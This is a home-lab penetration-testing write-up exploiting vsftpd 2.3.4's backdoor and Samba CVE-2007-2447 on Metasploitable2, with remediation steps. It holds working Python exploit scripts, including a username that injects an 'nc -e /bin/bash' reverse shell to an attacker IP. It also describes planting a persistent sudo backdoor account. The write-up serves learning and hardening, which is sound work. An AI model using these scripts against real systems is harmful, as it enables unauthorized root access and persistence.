## Objective

Metasploitable2 is deliberately packed with vulnerable, outdated services — 
this attack targets two of them: the vsftpd 2.3.4 backdoor and a Samba 
misconfiguration (CVE-2007-2447), demonstrating two distinct exploitation 
categories (a planted malicious backdoor vs. a real command injection 
vulnerability) through manually-scripted, tool-free exploitation.

## Recon

An `nmap -sn 192.168.10.0/24` sweep from Kali identified a live host on the 
segment that was neither Kali's own IP nor the router's — Metasploitable, 
freshly cloned into VLAN 10 for this attack.



A follow-up service scan (`nmap -sV`) against that host revealed a wide 
spread of outdated, vulnerable services — a genuine goldmine for this attack. 
Two stood out for manual exploitation:

- **vsftpd 2.3.4** (port 21) — a known-backdoored build
- **Samba** (ports 139/445) — vulnerable to CVE-2007-2447 (`usermap_script`)



### Exploit 1: vsftpd 2.3.4 Backdoor

**Mechanism**

vsftpd 2.3.4 was distributed for a short window in 2011 with a deliberately 
planted backdoor in its source code — not a bug in legitimate logic, but 
intentionally malicious code inserted by an attacker who compromised the 
distribution:

```c
// Malicious snippet from vsftpd 2.3.4
if (p_buf[i] == 0x3A && p_buf[i+1] == 0x29) {  // ':' and ')'
    vsf_sysutil_extra();  // Opens backdoor on port 6200
}
```

This scans the incoming username byte-by-byte, checking every position for a 
colon (`0x3A`) immediately followed by a closing parenthesis (`0x29`) — the 
literal `:)` characters. The check isn't limited to the start of the 
username; it runs at every index, which is why a username like `hell:)` 
still triggers it, not just a bare `:)` alone. The moment the sequence is 
found anywhere in the string, a root shell listener is spawned on port 6200 
— no valid credentials required.

**Exploitation**

Using Python's `socket` library, a raw TCP connection to port 21 was used 
to send the trigger username, followed by a separate connection to port 
6200 for the resulting root shell:

**`vsftpd_exploit.py`**

```python
#!/usr/bin/env python3
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.10.21", 21))
s.send(b"USER hell:)\r\n")
s.send(b"PASS X\r\n")
response = s.recv(1024)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.10.21", 6200))
while True:
    command = input(">")
    s.send(f"{command}\n".encode())
    out = s.recv(65536)
    print(out.decode())
```

This established a fully interactive root command shell on Metasploitable, 
with no valid credentials required:



**Remediation**

Since vsftpd 2.3.4 doesn't run as a standalone service, identifying how it 
actually started took real investigation: `ps aux` showed no vsftpd process 
when idle, and no matching init.d script existed. It turned out to be 
managed by `xinetd`, a "super-server" that listens on port 21 itself and 
spawns vsftpd on demand per connection — found by checking `/etc/xinetd.d/`.

**Fix:** disable the vsftpd entry in xinetd's configuration:
```
/etc/xinetd.d/vsftpd

disable = yes
```


Restart xinetd to apply the change:

```
/etc/init.d/xinetd restart
```


This closes the backdoor completely — no vsftpd process is ever spawned to 
respond on port 21 again, for any future connection attempt.

**Re-verification**

The exploit script was re-run unmodified against the hardened target:
```
python3 vsftpd_exploit.py
```
Result: `ConnectionRefusedError` — port 21 no longer accepts connections at 
all, confirming the fix.



### Exploit 2: Samba `usermap_script` (CVE-2007-2447)

**Mechanism**

Samba is an open-source implementation of Windows' SMB/CIFS protocol, 
allowing Linux and Windows machines to share files as if speaking the same 
language. Because the two platforms historically handle usernames 
differently — a Windows login like `John Smith` versus a Linux account like 
`jsmith` — Samba offers an admin-configurable `username map script` option: 
an external script that translates an incoming username into the correct 
local account.

The vulnerability lies in how Samba invokes that script. It builds a shell 
command by inserting the client-supplied username directly into a string, 
wrapped in double quotes, then passes it to `/bin/sh`. Double quotes protect 
against some shell tricks, but **not command substitution** — backticks 
(`` ` ``) and `$()` still execute even inside double-quoted strings. Since 
any remote client (authenticated or not) supplies the username Samba maps, 
an attacker can embed a real shell command inside that field, and it 
executes with the privileges of the Samba service itself — commonly root.

**Exploitation**

Understanding the injection point, a Python script using `pysmb` was built 
to exploit it in two steps.

**Step 1 — start a listener on Kali**, waiting for the reverse connection:

```
nc -lvnp 4444
```



**Step 2 — trigger the injection** by connecting to Samba with a malicious 
username, embedding a command that tells Metasploitable to open a reverse 
shell back to Kali on port 4444:

**`smb_usermap_exploit.py`**

```python
#!/usr/bin/env python3
from smb.SMBConnection import SMBConnection
username = "jack$(nc -e /bin/bash 192.168.10.20 4444)"
password = ""
my_name = ""
remote_name = ""
conn = SMBConnection(username, password, my_name, remote_name)
conn.connect("192.168.10.21", 139)
```

**Result:** the connection opens, handing back a root shell on the waiting 
listener. A Python PTY upgrade (`python -c 'import pty; 
pty.spawn("/bin/bash")'`) was used afterward to make the shell fully 
interactive, since a raw `nc -e` shell doesn't handle interactive programs 
like `passwd` correctly.



**Remediation**

Unlike vsftpd, no service needed to be disabled entirely — Samba itself is 
legitimate and needed, only the vulnerable feature had to go.

**Fix:** comment out the `username map script` directive in `smb.conf`:
```
/etc/samba/smb.conf

#username map script = /etc/samba/scripts/mapusers.sh
```


Restart Samba to apply the change:
```
/etc/init.d/samba restart
```


**Re-verification**

The two-step exploit was re-run unmodified against the hardened target. The 
script executed with no error, but the Kali listener never received a 
connection — the injected command never ran:



## Impact

Both exploits granted full root shell access, meaning complete, 
unrestricted control over Metasploitable — the ability to read, modify, or 
delete any file, install anything, and impersonate or replace any account.

**vsftpd:** the root password was changed directly — a complete, silent 
takeover of the highest-privilege account on the system, locking out 
legitimate administrators entirely.



**Samba:** a new account (`alex`) was created and added to the `sudo` 
group, establishing a persistent backdoor account with administrative 
privileges — a foothold that would survive even if the original 
vulnerability were later patched, since the rogue account itself remains 
unless explicitly discovered and removed.



In a real environment, either exploit alone represents complete compromise: 
an attacker with root access can pivot to other systems on the network, 
exfiltrate any data on the host, or — as demonstrated — plant persistent 
access that outlives the original entry point.

## Lessons Learned

The biggest practical takeaway: awareness of what's actually running on a 
system matters as much as patching known vulnerabilities. vsftpd wasn't 
even visible as a standalone process — it took real investigation to 
discover xinetd was managing it invisibly. A service an admin doesn't know 
is running is a service that never gets hardened.

Both exploitation scripts were written independently — mistakes happened 
along the way (syntax errors, a hanging non-interactive shell, missing 
library arguments), each one worked through and understood rather than 
patched blindly. That process mattered more than the final working script: 
understanding *why* something failed built more real knowledge than getting 
it right on the first try would have.
